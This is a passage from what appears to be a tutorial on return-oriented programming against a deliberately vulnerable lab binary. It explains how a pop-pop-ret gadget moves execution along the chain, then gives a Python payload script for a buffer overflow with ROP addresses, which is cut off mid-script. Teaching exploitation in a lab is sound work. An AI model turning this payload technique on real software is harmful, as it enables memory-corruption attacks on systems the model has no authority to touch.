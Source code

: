 Note the following key points from the above gif:

* We're on a breakpoint inside the `rop3` function, where it's about to return by executing the `ret` instruction;
* At the top of the stack, there's an address of a `pop2ret` ROP gadget with `pop edi; pop ebp; ret` instructions inside a libc shared library loaded by our vulnerable program;
* `0xdeaddead` and `0xc0d3c0d3` are on the stop of the stack, just below the `pop2ret` address;
* Once the `ret` is executed, the code jumps to the said `pop2ret` ROP gagdet;
* `pop2ret` instructions `pop edi; pop ebp` execute and `0xdeaddead` and `0xc0d3c0d3` are popped from the stack;
* Address of the libc `exit()` function is now on top of the stack;
* Finally, `ret` instruction executes, which pops the `exit()` address from the stack and jumps to it, completing our second ROP chain execution and gracefully closing the vulnerable program.

```
We could have chosen to inspect the `popret` gadget and we would have seen a nearly identical behaviour to the one noted above, except that `popret` would have popped only one value from the stack before executing the `ret` instruction.
```

## Useful Python

### Little Endian Converter

Below is a useful python snippet that converts a given memory address, i.e `0x565561d4`, to it's little-endian format, i.e `\\xd4\\x61\\x55\\x56`:

```python
import struct
'\\x' + '\\x'.join(x.encode('hex') for x in struct.pack('I', 0x565561d4)).encode("utf-8")
'\\xd4\\x61\\x55\\x56'
```

### Payload Executor

Below shows an easy way to build the stack using `struct.pack` that does not require us to deal with little-endiannes when specifying memory addresses in the exploit:

```python
#!/usr/bin/env python
import os
import struct

pop_ret = 0x5655601e
pop_pop_ret = 0x5655630a
rop1 = 0x565561b9
rop2 = 0x565561e4
rop3 = 0x56556212
exit = 0xf7e02950

# Build the stack
# Overflow
payload =  "A"*108
payload += "BBBB"

# Address of rop1()
payload += struct.pack("I", rop1)

# Address of rop2(), address of pop ret and an argument for rop2()
payload += struct.pack("I", rop2)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xbeefbeef)

# Address of rop3(), adress of pop pop ret, and arguments 1 and 2
payload += struct.pack("I", rop3)
payload += struct.pack("I", pop_pop_ret)
```